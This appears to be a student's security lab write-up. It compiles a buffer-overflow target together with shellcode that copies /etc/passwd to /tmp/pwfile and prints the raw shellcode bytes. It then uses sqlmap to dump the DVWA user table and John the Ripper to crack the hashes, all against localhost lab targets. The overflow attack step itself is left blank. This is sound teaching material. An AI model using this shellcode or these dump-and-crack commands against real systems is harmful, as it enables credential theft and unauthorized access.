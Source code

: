 # Lab #1,22110058, Luong Minh Nhat, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**:
## 1. Complie asm program and C program to execuatable

Complie asm program
``` 
    nasm -g -f elf shell.asm 
    ld -m elf_i386 -o shell shell.o
```

![](./imgs/task1_1.png)

Complie C program
``` 
    gcc -g vulnerable.c -o vulnerable.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```
![](./imgs/task1_2.png)
## 2. Prepairing for attacking
Get shell code from complied asm program
```
    for i in $(objdump -d shell |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```
![](./imgs/task1_3.png) 

<br>

The value that we got
```
\x31\xc0\xb0\x05\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x8d\x5c\x24\x01\xcd\x80\x89\xc3\xb0\x03\x89\xe7\x89\xf9\x66\x6a\xff\x5a\xcd\x80\x89\xc6\x6a\x05\x58\x31\xc9\x51\x68\x66\x69\x6c\x65\x68\x2f\x6f\x75\x74\x68\x2f\x74\x6d\x70\x89\xe3\xb1\x42\x66\x68\xa4\x01\x5a\xcd\x80\x89\xc3\x6a\x04\x58\x89\xf9\x89\xf2\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xb3\x05\xcd\x80
```
78 bytes long

Use gdb to find redundant_code function address:
``` 
    gdb vulnerable -q
    disas redundant_code
```
![](./imgs/task1_4.png)

## 3. Stack frame
stack frame for main fucntion <br>
![](./imgs/task1_5.png)
## 4. Attack

**Conclusion**: in main fucntion use unsafe function `strcpy`, that lead to attack buffer overflow for attacker inject code, to prevent it, we can use safe function like `strncpy`

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 


Set up
```
docker pull vulnerables/web-dvwa
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

Open your browser and navigate to http://localhost. You should see the DVWA login page. <br>
![](./imgs/task2_1.png)

Login with the default credentials: <br>

Username: admin <br>
Password: password <br>
![](./imgs/task2_2.png)

**Question 1**: Use sqlmap to get information about all available databases <br>
**Answer 1**:
```
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit" --dbs

```
![](./imgs/task2_3.png)
**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
get tables
```
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" -D dvwa --tables
```
![](./imgs/task2_4.png)
get users
```
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" -D dvwa --dump

```
![](./imgs/task2_5.png)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
```
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt

```
